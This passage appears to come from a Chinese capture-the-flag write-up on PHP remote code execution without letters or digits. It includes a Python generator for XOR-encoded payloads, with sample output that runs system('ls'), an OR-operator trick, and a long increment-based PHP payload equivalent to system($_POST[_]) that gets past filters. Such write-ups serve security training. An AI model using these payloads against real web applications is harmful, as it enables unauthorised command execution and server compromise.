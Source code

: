 ```python
       f=open("xor_rce.txt","r")
       while True:
           t=f.readline()
           if t=="":
               break
           if t[0]==i:
               #print(i)
               s1+=t[2:5]
               s2+=t[6:9]
               break
       f.close()
   output="(\""+s1+"\"^\""+s2+"\")"
   return(output)

while True:
   param=action(input("\n[+] your function：") )+action(input("[+] your command："))+";"
   print(param)
```
php运行后生成一个txt文档，包含所有可见字符的异或构造结果
接着运行python脚本即可
```php
[+] your function：system
[+] your command：ls
("%08%02%08%08%05%0d"^"%7b%7b%7b%7c%60%60")("%0c%08"^"%60%7b");
```

**或运算的利用**
在这张图表上，`'@'|'(任何左侧符号)'=='(右侧小写字母)'`
![](https://img-blog.csdnimg.cn/2020080722072453.png)
即`'@'|'!'=='a' `，那么 `('@@@@'|'().4')=='hint'`
最后`?code=($_ = '@@@@'|'().4') == 1?1:$$_`
![](https://img-blog.csdnimg.cn/20200829132052613.png)
![](https://img-blog.csdnimg.cn/20200829132322511.png)

[2020安恒DASCTF八月浪漫七夕战 ezrce Writeup](https://rce.moe/2020/08/25/GeekPwn-2020-%E4%BA%91%E4%B8%8A%E6%8C%91%E6%88%98%E8%B5%9B-cosplay-writeup/)

**无字母数字递增rce**
过滤了`~`与`^`,就不能用取反和异或来进行getshell
想到的方法是递增，但是递增需要分号，需要绕过分号，来进行getshell，测试发现可以利用`<?=?>`来进行绕过
递增的代码 相当于`system($_POST[_]);`：
```php
<?=$_=[]?>
<?=$_="$_"?>
<?=$_=$_['!'=='@']?>
<?=$___=$_?>
<?=$__=$_?>
<?=$__++?><?=$__++?>
<?=$__++?><?=$__++?>
<?=$____=$__++?>
<?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$_____________=$__++?><?=$__++?>
<?=$__________=$__++?>
<?=$_________=$__++?>
<?=$__++?>
<?=$________=$__++?>
<?=$_____=$__++?>
<?=$______=$__++?>
<?=$______?>
<?=$__++?><?=$__++?><?=$__++?><?=$__++?>
<?=$____________=$__++?>
<?=$_____.$____________.$_____.$______.$____.$_____________?>
<?=$________________=$_____.$____________.$_____.$______.$____.$_____________?>
```